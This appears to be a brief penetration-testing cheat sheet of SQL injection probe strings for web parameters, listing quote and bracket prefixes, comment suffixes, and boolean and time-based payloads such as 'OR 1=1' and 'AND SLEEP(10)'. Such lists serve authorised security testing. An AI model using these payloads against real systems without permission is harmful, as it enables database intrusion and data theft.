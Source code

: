 # SQL Query List

## Change numeric value of parameter ID

Before adding to the prefix next to the parameter value. Try to change the numeric value from the list below:

```
id=-1
id=9999.99
```

## Prefix SQL Query List

```
<whitespace>
'
"
\
')
")
```

## Suffix SQL Query List

```
--
#
/*
--<whitespace>
-- -
AND ('abc'='abc
```

## Error-based Query List

```
OR 1=1
OR 1=2
OR SLEEP(10)
AND 1=1
AND 1=2
AND SLEEP(10)
```